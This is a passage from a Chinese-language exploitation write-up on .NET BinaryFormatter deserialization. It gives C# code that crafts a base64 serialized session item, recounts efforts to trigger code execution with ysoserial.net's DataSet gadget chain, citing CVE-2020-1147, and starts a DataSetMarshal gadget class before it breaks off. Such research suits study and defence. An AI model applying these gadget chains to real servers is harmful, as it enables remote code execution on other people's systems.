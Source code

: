```java
    {
        var plainTextBytes = System.Text.Encoding.UTF8.GetBytes(plainText);
        return System.Convert.ToBase64String(plainTextBytes);
    }

    static void Main()
    {
        // 4
        Base64ItemState _state = Base64ItemState.DelayLoad;
        // 2
        DataTypeInSessionState _sessionDataType = DataTypeInSessionState.ByteArray;
        // _itermId : writer.Write(this.+_id.ToString)
        String _itemId = "ce21726d-43ff-41a3-9204-981a19e75827";
        String _serializedKey = "47b652a1843a427d9528e8ebe3f858d3_129790e9056046b2b93cf003c1788d6a";
        int _size = 1024;
        int _version = 69;
        
        MemoryStream memStream = new MemoryStream();
        // using (BinaryWriter writer = new BinaryWriter(File.Open("createKey.txt", FileMode.Create)))
        using (BinaryWriter writer = new BinaryWriter(memStream))
        {
            writer.Write7BitEncodedInt((byte)_state);
            writer.Write7BitEncodedInt((byte)_sessionDataType);
            writer.Write(_itemId);
            writer.Write(_serializedKey);
            writer.Write7BitEncodedInt(_size);
            writer.Write7BitEncodedInt(_version);
        }

        Console.WriteLine(Convert.ToBase64String(memStream.ToArray()));
        Console.WriteLine("Success");
    }
}
```

## BinaryFormatter 反序列化的利用

一开始用的[ysoserial.net](https://github.com/pwntester/ysoserial.net)中`BinaryFormatter`的`DataSet`POP链，但是一直不能弹计算器，不知道为什么，重搭了挺多次环境，以及尝试安装补丁的，最后还是深入了解了`DataSet`POP链以及定位到出错原因，查询资料，最后才在[mr_me 的 CVE-2020-1147](https://srcincite.io/blog/2020/07/20/sharepoint-and-pwn-remote-code-execution-against-sharepoint-server-abusing-dataset.html)找到了答案

在此同时记录一下`DataSet`的POP链的构造

### DataSet 的POP链

借用[先知一篇DataSet的分析](https://xz.aliyun.com/t/9593#toc-1)

```java
[Serializable]
public class DataSetMarshal : ISerializable
{
    byte[] _fakeTable;

    public void GetObjectData(SerializationInfo info, StreamingContext context)
    {
        info.SetType(typeof(System.Data.DataSet));
        info.AddValue("DataSet.RemotingFormat", System.Data.SerializationFormat.Binary);
        info.AddValue("DataSet.DataSetName", "");
        info.AddValue("DataSet.Namespace", "");
        info.AddValue("DataSet.Prefix", "");
        info.AddValue("DataSet.CaseSensitive", false);
```